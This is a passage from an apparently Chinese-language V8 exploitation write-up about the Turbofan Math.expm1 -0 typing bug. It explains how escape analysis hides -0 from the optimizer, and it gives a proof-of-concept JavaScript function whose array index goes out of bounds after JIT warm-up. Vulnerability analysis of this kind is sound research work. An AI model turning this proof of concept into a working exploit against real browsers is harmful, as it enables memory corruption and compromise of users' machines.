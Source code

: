 所以结合这个特性，我们利用逃逸分析来绕过前两个`typing`，这样Turbofan分析不出来这个是`-0`，就没法准确判断类型，只能是`Boolean`
```
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}
```

修改Poc
```
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}

console.log(foo(0));

for(var i = 0; i < 100000; i++)
    foo("0");

console.log(foo(-0));
```

跟踪优化过程，我们可以看到在`Typer`阶段，`SameValue`节点类型是`Boolean`

![IMAGE](/assets/resources/89D831FDD07E27C4A162F6E5753F753A.jpg)

